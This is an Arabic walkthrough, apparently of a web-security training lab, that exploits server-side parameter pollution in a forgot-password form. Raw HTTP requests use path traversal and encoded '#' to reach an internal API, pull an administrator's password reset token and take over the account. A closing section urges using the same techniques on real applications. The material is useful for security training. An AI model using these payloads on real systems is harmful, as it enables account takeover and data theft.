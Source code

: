 ## **Solving the Lab: Exploiting Server-side Parameter Pollution (Advanced Guide)**

### **المعرفة المطلوبة لحل المختبر وتطبيقه في بيئة حقيقية**

لحل هذا المختبر بشكل احترافي وتطبيقه على بيئات حقيقية، يجب أن يكون لديك فهم متقدم في:

- **تحديد استخدام مدخلات المستخدم في مسارات URL أو سلاسل الاستعلام (Query String) الخاصة بالـ API.**
- **استخدام تقنيات اجتياز المسارات (Path Traversal) لتغيير الطلبات المُرسلة إلى السيرفر.**
- **تحليل الـ API من خلال JavaScript أو واجهات API المفتوحة مثل OpenAPI.**
- **التلاعب بتنسيقات البيانات مثل JSON و XML لاستكشاف الثغرات الأمنية.**

---

### **الخطوة 1: تحليل التطبيق لتحديد نقاط الضعف**

#### **1. فحص الطلبات الصادرة باستخدام Burp Suite**

1. افتح **Burp's browser** وقم بتشغيل **إعادة تعيين كلمة المرور للمستخدم المسؤول (Administrator)**.
2. انتقل إلى **Proxy > HTTP history** وابحث عن الطلب `POST /forgot-password`.
3. ابحث عن أي ملفات **JavaScript** مرتبطة قد تكشف عن سلوك التطبيق، مثل:
   - `/static/js/forgotPassword.js`
4. اضغط بزر الفأرة الأيمن على `POST /forgot-password` واختر **Send to Repeater**.
5. في **Repeater**، أعد إرسال الطلب لمراقبة سلوك الاستجابة.

#### **2. اختبار إدخال المستخدم في المسارات**

- أرسل طلبات تحتوي على قيم معدّلة للـ `username` لمعرفة إذا كان الإدخال يُستخدم في مسار URL على السيرفر.
- استخدم القيم التالية على التوالي:
  - `administrator%23` → يُرجع **Invalid route** ➝ قد يكون الإدخال في **المسار**.
  - `administrator%3F` → يُرجع **Invalid route** ➝ `؟` ربما قطعت المسار.
  - `./administrator` → يُرجع الاستجابة الأصلية ➝ الإدخال ربما في المسار.
  - `../administrator` → يُرجع **Invalid route** ➝ محاولة اجتياز المسارات غير ناجحة.


```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=./administrator
```
---

### **الخطوة 2: اكتشاف توثيق الـ API وتحليل نقاط الضعف**

1. استخدم `../%23` ثم زِد عدد `../` تدريجياً حتى تصل إلى `../../../../%23`.
2. لاحظ أن هذا قد يُرجع **Not found**، مما يشير إلى أنك خرجت خارج جذر الـ API.
3. جرّب طلب ملفات تعريف API شائعة:
```http
username=../../../../openapi.json%23
```

```http
username=../../../../swagger.json%23
```

```http
username=../../../../swagger.yaml%23
```

```http
username=../../../../api-docs%23
```

```http
username=../../../../api/v1/openapi.json%23
```

```http
username=../../../../api/v1/swagger.yaml%23
```

```http
username=../../../../v1/api-docs%23
```

```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=../../../../%23
```
 
```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=../../../../openapi.json%23
```
4. قد يظهر لك مسار API مثل:
### RESPONSE

```json
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```
- `/api/internal/v1/users/{username}/field/{field}`

🎯 **تحليل المسار:**
- `{username}` هو اسم المستخدم المُدخل.
- `{field}` قد يكون نوع البيانات المطلوب استردادها.

---

### **الخطوة 3: استغلال الثغرة والتلاعب بالـ API**

#### **1. استرجاع بيانات المستخدم باستخدام الحقول المتاحة**

1. أرسل الطلب التالي:
```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=administrator/field/foo%23
```

2. سيُرجع **رسالة خطأ** لأن API يدعم فقط حقولًا معينة.
3. جرّب `email` كحقل صالح:
```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=administrator/field/email%23
```
4. لاحظ إذا استجاب API بنفس الطريقة، مما قد يشير إلى أن `email` هو حقل صالح.

#### **2. استخراج رمز إعادة تعيين كلمة المرور**

1. في **HTTP history**، ابحث عن `/static/js/forgotPassword.js`.
2. حدد نقطة نهاية إعادة تعيين كلمة المرور:


   - `/forgot-password?passwordResetToken=${resetToken}`
3. جرّب استرداد قيمة `passwordResetToken`:

```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=administrator/field/passwordResetToken%23
```

4. إذا فشل الطلب بسبب إصدار API المستخدم، قم بتعديله:
```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=../../v1/users/administrator/field/passwordResetToken%23
```
5. إذا نجح الطلب، ستظهر لك **رمز إعادة تعيين كلمة المرور**.

#### **3. استخدام الرمز لاختراق الحساب**

1. في المتصفح، أدخل نقطة نهاية إعادة تعيين كلمة المرور:
   - `/forgot-password?passwordResetToken=123456789`
2. قم بتعيين كلمة مرور جديدة.
3. **سجّل الدخول كـ Administrator.**
4. انتقل إلى لوحة التحكم، وقم بحذف المستخدم **Carlos** لحل المختبر.

---

## **كيفية اكتشاف هذه الثغرات في بيئة حقيقية؟**

### **1. استخدام أدوات الـ Reconnaissance**
- استخدم **Burp Suite** و **Postman** لفحص طلبات API واكتشاف المدخلات القابلة للتلاعب.
- استخرج ملفات **OpenAPI** و **Swagger** لمعرفة جميع النقاط التي يمكن استهدافها.

### **2. تحليل مسارات الـ API يدويًا**
- جرّب **Path Traversal** من خلال إدخال `/../` ومعرفة إذا كان التطبيق يعيد توجيه الطلب.
- استخدم رموز مثل `#` و `?` لمعرفة ما إذا كان الإدخال يُستخدم في **المسار أو سلسلة الاستعلام**.

### **3. استغلال ثغرات التخصيص الجماعي (Mass Assignment)**
- أرسل **حقول إضافية** مثل `isAdmin: true` في الطلبات.
- جرّب إرسال **بيانات غير متوقعة** في JSON أو XML.

### **4. التلاعب بإصدارات الـ API**
- جرّب استدعاء إصدارات أقدم من الـ API مثل `/v1/` أو `/v2/` لرؤية الفروقات الأمنية.
- تأكد مما إذا كانت التطبيقات ما زالت تعتمد على إصدارات غير آمنة.

🔍 **نصيحة احترافية:** استخدم أداة **jwt.io** لتحليل **JSON Web Tokens (JWTs)**، فقد تحتوي على بيانات سرية يمكن استخدامها في الاختراق.

---

## **ملخص**
- **ابدأ بتحليل الطلبات باستخدام Burp Suite.**
- **اكتشف API Documentation باستخدام JavaScript أو OpenAPI.**
- **استخدم Path Traversal لاجتياز المسارات والوصول إلى بيانات حساسة.**
- **استغل إصدار API غير محمي لاستخراج رموز إعادة تعيين كلمة المرور.**
- **طبق نفس الخطوات على تطبيقات حقيقية باستخدام أدوات متقدمة مثل Postman و Burp Suite.**

🚀 **بهذه الطريقة، يمكنك اختبار واكتشاف ثغرات تلوث البارامترات على السيرفر في أي بيئة حقيقية!**

